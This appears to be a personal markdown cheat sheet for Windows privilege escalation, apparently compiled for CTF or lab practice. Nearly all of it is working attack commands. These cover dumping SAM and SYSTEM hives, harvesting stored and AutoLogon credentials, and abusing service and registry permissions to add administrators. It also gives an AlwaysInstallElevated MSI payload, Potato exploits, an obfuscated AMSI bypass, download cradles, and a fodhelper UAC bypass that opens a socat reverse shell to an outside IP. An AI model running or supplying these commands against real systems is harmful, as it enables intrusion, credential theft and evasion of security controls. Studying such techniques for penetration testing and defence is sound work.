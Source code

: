 #### checklist
- **use enumeration tools**
	- winpeas
	- bloodhound - AD env
	- PowerView
	- PowerUp
	- _mimikatz_
- remember to use **netcat** for reverse shells!
- check users in local machine and domain
- check groups in local machine and domain
- check current user groups
- check current user permissions --- what?
- check config files 
- check log files
- check Unattended files
- check powershell history
- check if AV enabled
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
- Windows AutoLogon credentails

- exploiting privileges [show me your privs, and I will lead you to system](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)
- kernel exploits: https://github.com/ASR511-OO7/windows-kernel-exploits
- offsec exploits db: https://github.com/offensive-security/exploitdb-bin-sploits
- AD cheatsheet : https://wadcoms.github.io/
- sweet potato rule all [potato exploits](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 
### Unattended Windows Installations
```
# credentails such as <Password>
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
### IIS config path
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### powershell & cmd
```powershell
# secrets dump SAM SYSTEM
secretsdump.py -sam sam -system system local
# putty proxy credentails 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# copy system/sam files
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
# read encrypted file 
$ss = Import-CliXml -Path user.txt
$ss.GetNetworkCredential().Password # password is property to read
# find db connections in IIS config file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

# winlogon logged users credentials
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
# saved windows credentails| if creds exist can be used with runas
cmdkey /list 

# AutoRuns - check permisisons  | run on user login
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# read saved powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# run cmd as another user
runas /savecred /user:mike cmd.exe

# scheduled tasks
schtasks /query /tn vulntask /fo list /v

# find unquoted services
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

# ----exploiting----- 
#AlwaysInstallElevated|check regs files set to 1,if exist create msi shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msiexec /quiet /qn /i payload.msi
# if nt/INTERACTIVE has full perms use exploit to run c code as localSystem
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
#confirm exploitation
net localgroup administrators
# filepermservice.exe service 
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
sc start filepermsvc
# abuse startup files at login
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# permissions using accesschk64 | SERVICE_CHANGE_CONFIG
accesschk64.exe -wuvc daclsvc
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
# Hot Potato exploit
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

```
- powershell
```powershell
# download files
Invoke-WebRequest -URI $URL -OutFile $Path
#
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
(New-Object System.Net.WebClient).DownloadString($URL)
#
Start-BitsTransfer -Source $URL -Destination $Path
# 
certutil.exe -urlcache -split -f $URL $Path
# find file
Get-ChildItem -Path . -Recurse -Include flag
#bypass execution policy
powershell.exe -nop -ep bypass
# start a process as another user
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -FilePath "C:\temp\shell.ps1" -Credential $cred -Computer localhost

```

- check list
```
Unquoted Service Paths
Insecure Permissions on Service Executable
Insecure Service Permissions
Unpatched Software
Weak Registry permissions
writable StartUp Folders

```
- Windows Privileges:
```
SeBackup / SeRestore
SeTakeOwnership
SeImpersonate / SeAssignPrimaryToken 

```
- tools
```
WinPEAS
PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation
Metasploit
```

- firewall and AntiVirus
```powershell

#AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

- UAC bypass
```powershell
# if GUI avaliable choose cmd
msfconfig.exe

# foodhelper bypass windows AV and spawn shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.129.32:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
# tool
https://github.com/hfiref0x/UACME
```